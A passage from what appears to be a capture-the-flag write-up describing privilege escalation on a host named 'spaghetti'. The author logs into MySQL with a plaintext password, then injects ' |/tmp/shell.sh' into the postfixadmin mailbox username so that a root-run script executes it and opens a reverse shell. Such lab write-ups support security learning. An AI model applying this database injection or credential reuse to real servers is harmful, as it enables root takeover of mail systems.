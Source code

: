 From here, we can login to the database and use the `postfixadmin` database.&#x20;

```
hostmaster@spaghetti:/var/www/postfixadmin$ mysql -u postfixadmin -pP4s8vV0r6
mysql: [Warning] Using a password on the command line interface can be insecure.             
Welcome to the MySQL monitor.  Commands end with ; or \g.                                    
Your MySQL connection id is 139
Server version: 8.0.23-0ubuntu0.20.04.1 (Ubuntu)

Copyright (c) 2000, 2021, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> use postfixadmin;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
```

The script uses the `mailbox` table, so we can update the entries within it:

```
mysql> update mailbox set username =' |/tmp/shell.sh';
Query OK, 1 row affected (0.02 sec)
Rows matched: 1  Changed: 1  Warnings: 0

mysql> update mailbox set password_expiry = (select now() + interval 7 day);
Query OK, 1 row affected (0.01 sec)
Rows matched: 1  Changed: 1  Warnings: 0
```

Afterwards, we can just wait for `root` to execute it and give us a reverse shell:

<figure><img src="../../../.gitbook/assets/image (13) (2).png" alt=""><figcaption></figcaption></figure>
